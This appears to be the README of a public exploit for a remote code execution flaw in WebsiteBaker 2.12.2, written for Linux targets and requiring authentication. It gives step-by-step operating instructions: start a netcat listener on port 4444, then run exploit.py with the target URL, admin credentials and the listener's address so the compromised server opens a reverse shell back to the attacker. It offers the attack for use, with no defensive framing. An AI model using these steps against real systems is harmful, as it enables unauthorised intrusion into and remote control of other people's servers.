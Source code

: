 # WebsiteBaker 2.12.2 - Remote Code Execution

First Start Listener With Netcat : nc -lvnp 4444

Then Use Exploit

Usage: python exploit.py -t TARGET_URL -u USERNAME -p PASSWORD --lhost LISTENER_IP --lport LISTENER_PORT

Example: python exploit.py -t http://192.168.1.104/WebsiteBaker -u admin -p admin --lhost 192.168.1.103 --lport 4444

# Notes

Authentication is Required to Exploit Vulnerability

Exploit is For Linux Targets!
